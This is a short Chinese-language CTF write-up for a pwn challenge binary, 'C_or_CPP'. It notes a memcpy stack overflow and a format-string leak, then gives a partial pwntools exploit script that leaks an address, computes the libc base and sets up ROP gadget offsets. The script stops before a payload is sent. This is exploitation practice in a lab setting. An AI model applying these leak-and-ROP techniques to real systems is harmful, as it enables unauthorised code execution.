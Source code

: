 ![[Pasted image 20241128170345.png]]
可以看到`memcpy`这里可以栈溢出。
这里看一看格式化字符串这里能泄漏出什么
![[Pasted image 20241128170639.png]]
可以看到泄漏出一个不知道是什么的栈地址，大抵是libc环境不对，这里用其他师傅的图来看看
![[Pasted image 20241128170820.png]]
可以看到泄漏的函数，从而可以获取libc基址。
exp:
```python
from pwn import *
from wstube import websocket



context(arch='amd64', os='linux', log_level='debug')

local = True

if local:

p = process('./C_or_CPP')

else:

p = websocket("wss://ctf.xidian.edu.cn/api/traffic/hDcQ5CkjZdJqW3SMfJU3f?port=9999")

# p = remote('pwnable.kr', 9032)

  

elf = ELF('./C_or_CPP')

libc = ELF('./lib/libc.so.6')

  

p.sendlineafter(b'option: ', b'2')

p.sendlineafter(b'C++ String input: ', b'1')

gdb.attach(p)

p.sendlineafter(b'C String input:', b'a' * 0x50)

p.recvuntil(b'a' * 0x50)

  

rebase = 0x4B1040

leak = u64(p.recv(6).ljust(8, b'\x00'))

base = leak - rebase

  

pop_rdi = base + 0x000000000002a3e5

pop_rsi = base + 0x000000000002be51

pop_rdx_rbx = base + 0x00000000000904a9

```